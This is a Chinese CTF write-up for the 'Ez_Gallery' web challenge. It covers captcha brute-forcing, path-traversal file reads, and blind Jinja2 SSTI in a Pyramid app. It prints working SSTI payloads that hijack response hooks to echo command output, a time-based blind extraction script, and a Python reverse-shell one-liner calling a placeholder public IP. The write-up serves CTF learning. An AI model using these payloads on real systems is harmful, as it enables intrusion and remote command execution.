# Ez_Gallery 题解
> 参考 ： \
[国城杯CTF官方wp](<../../国城杯CTF WP.pdf>)

## 0x01 考点
- 验证码爆破
- 任意文件读取
- 无回显SSTI
- **hook函数利用**

## 0x02 分析与解答
首先是一个登陆页面，web狗的直觉告诉我用户名就是admin：


题目还有两点提示：验证码可以爆破、密码为纯数字，那么基本上可以确定**考查的是利用burp爆破简易验证码**(其实这里完全可以先用简单的admim:admin、admin:123456试一下，发现密码就是123456)：


----爆破(环境没配好，先省略，后面来补充)----

登陆进来之后，有如下几幅图，随便点一个进去，可以观察到url处有文件，那么是否存在任意文件读取呢：



搞一下目录穿越，读取`/etc/passwd`验证一下，发现是可以的：


在官方wp的基础上，我尝试直接读取有关`flag`的内容，发现都失败了，于是先读取一下当前进程的环境变量列表，是python的框架：


然后再读一下`/proc/self/cmdline`查看启动当前进程的完整命令，找到了`/app/app.py`：


那么就是读取其源码来分析：
```python
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()

        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！&lt;a href='/home'&gt;点击进入主页&lt;/a&gt;")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()
```

分析一下代码：
- 用的是pyramid框架，然后定义了一个`User`类，配置用户名密码为`admin`、`123456`；`root_view`对应`/`根目录，功能就是一个重定向，不是重点。
- `info_view`对应`/info`路由，接收一个get参数`file`，然后获取文件名与扩展名，然后读取该文件，返回文件名、内容和basename，并通过模板渲染来显示，不是重点。
- `home_view`对应`/home`路由，就是个主页，把该显示的通过模板显示出来。
- `login_view`对应`/login`路由，检查用户名和密码是否正确。
- `shell_view`对应`/shell`路由(利用的重点)
    > 获取get参数`shellcmd`，然后定义了一个黑名单，其中该黑名单过滤了任意包含`length`、`count`、`数字`、`.`、`soft`和`%`的字符串。\
    > 如果包含则回显`wafwafwaf`，否则将传入的参数进行render渲染并回显`success`。

到这里可以确定利用`SSTI`注入，但是需要考虑以下几个点：
- 有过滤，需要绕过
- 无回显

waf绕过只需要考虑`.`的绕过，可以用`['']`来绕过，重点是无回显怎么处理呢？一般地，无回显可以用**盲注、写文件及弹shell**，这道题没有写权限，据说盲注和弹shell都可以成功，还有就是让其回显出来，共三个方法，接下来都依次看一下。

### #1 回显法
即我们需将读取的内容在response返回，而我们观察源码可以知道response的body内容只有`wafwafwaf`、`success`、`error`三个内容，想要回显的话，就需要重写`response`。

这里用到的是`pyramid`的`resquest.add_response_callback()`方法，[官方解释](https://docs.pylonsproject.org/projects/pyramid/en/1.4-branch/narr/hooks.html)如下：



简单来说：`resquest.add_response_callback(callback(request,response))`向请求对象中添加response回调(response callback)函数，该回调函数会在response对象创建后调用。
> \- callback是一个可调用对象(user-defined)，接受两个参数，即`request`和`response`，也就是说，对于一个request对象，在response发送到客户端之前，可再次对检查或修改;\
> \- 所有的response callback按照他们被添加的顺序进行调用，并且所有的response callback在NewResponse事件(提供钩子)触发后进行调用.

一图胜千言：


那么回到题目，我们需要做的就是结合SSTI重写响应内容。而响应内容从整体上分为两部分，即header和body，那么也就可以通过重写这两个部分其中的一个来回显我们要的内容。干！

#### Header回显

#### Body回显
直接上payload：
```python
{{cycler['__init__']['__globals__']['__builtins__']['exec']("getattr(request,'add_response_callback')(lambda request,response:setattr(response, 'text', getattr(getattr(__import__('os'),'popen')
('whoami'),'read')()))",{'request': request})}}
```
payload说明：
> 因为过滤了点，这里使用 [''] \
> cycler：在python ssti模板引擎中用于循环或迭代数据\
> setattr：setattr 是 Python 内置函数之一，可以用来设置对象的属性。例如：setattr(object, name, value)\
> modules： 这是一个字典，存储了当前解释器中所有已导入的模块。通过 sys.modules，我们可以访问和操作这些已导入的模块。



#### Header回显
payload：
```python
{{cycler['__init__']['__globals__']['__builtins__']['setattr'](cycler['__init__']['__globals__']['__builtins__']['__import__']('sys') ['modules']['wsgiref']['simple_server']['ServerHandler'],'http_version',cycler['__init__']['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']())}}
```
payload说明：
> wsgiref：是 Python 标准库中的一个模块，用于实现 WSGI协议。WSGI 是 Python Web 应用程序与 Web 服务器之间的标准接口，允许不同的 Web 服务器和框架之间进行互操作。所以这里可以使用wsgiref.simple_server创建一个简单的WSGI服务器\
> ServerHandler：它是 wsgiref.handlers 模块中的一个类，用于处理 WSGI 请求。它继承自 BaseHandler，并提供了一些额外的功能，如处理 HTTP 请求和响应。\
> http_version：它是 wsgiref.handlers.BaseHandler 类中的一个属性



### #2 盲注法
> 参考 ： [2024“国城杯”网络安全挑战大赛题解](https://www.zxcms.com/content/i0d8pwy331l69g.html#%E6%B3%95%E4%B8%80%EF%BC%9Ashell%E7%9B%B2%E6%B3%A8)

根据提目特点，肯定选择时间盲注(类似题目可参考[WuCup_Web-TimeCage](https://github.com/Q1ngD3ngY1/CTF/blob/main/2024%E7%AC%AC%E4%B8%80%E5%B1%8AWuCup/web/Timecage/wp.md))，脚本如下：
```python
import requests
import string
import time
import lipsum

url = 'http://ip:port/shell?shellcmd={{lipsum|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("eval")(request|attr("POST")|attr("get")("shell"))}}'
charset = string.ascii_letters+string.digits+'{'+'}'+'-'
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Connection': 'close'
}
cookies = {
    'session':'your sesssion value'
}

session = requests.Session()
session.headers.update(headers)
session.cookies.update(cookies)

def get_readflag_out():
    output = ''
    i = 1
    while True:
        for c in charset:
            command = f"sleep $(/readflag | cut -c {i} | tr {c} 8)"
            shell = f'__import__("os").system("{command}")'
            data = {
                "shell":shell
            }
            start_time = time.time()
            response = session.post(url,data)
            end_time = time.time()

            time_token = end_time-start_time
            
            if time_token>8.0:
                print("found char:", c)
                output += c
                break
        
        if len(output)==i:
            print(output)
            i+=1
        else:
            break
    return output

output = get_readflag_out()
print(output)
```
核心思想就是一个字符一个字符的来拆解进行猜测。

### #3 弹shell
> 参考 ： [2024“国城杯”网络安全挑战大赛题解](https://www.zxcms.com/content/i0d8pwy331l69g.html#%E6%B3%95%E4%B8%80%EF%BC%9Ashell%E7%9B%B2%E6%B3%A8)
先上传payload：
```
/shell?shellcmd={{lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')(request|attr('POST')|attr('get')('shell'))}}
```

然后post提交python反弹shell脚本：
```
shell=__import__('os').system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("公网ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'')
```

## 0x03 题外话之hook函数
`Hook函数`也叫钩子函数，可以看作是一个监听器(注重于过程监控)，用于在特定事件发生时执行自定义代码。它允许开发者**在特定事件发生前或发生后插入自定义代码**(例如上面的`resquest.add_response_callback(callback(request,response))`)，以实现对系统行为的个性化控制。
> 类比理解：把使用Hook技术的人比作钓鱼人，而Hook技术就像他的渔具，系统中不断传递的事件就像一条条游鱼，钓鱼人通过Hook技术将他想要的目标事件钓上（Hook技术一般是有指向性的），然后就可以对事件进行修改，再让其正常运行，达到技术人员的目的。\
> 
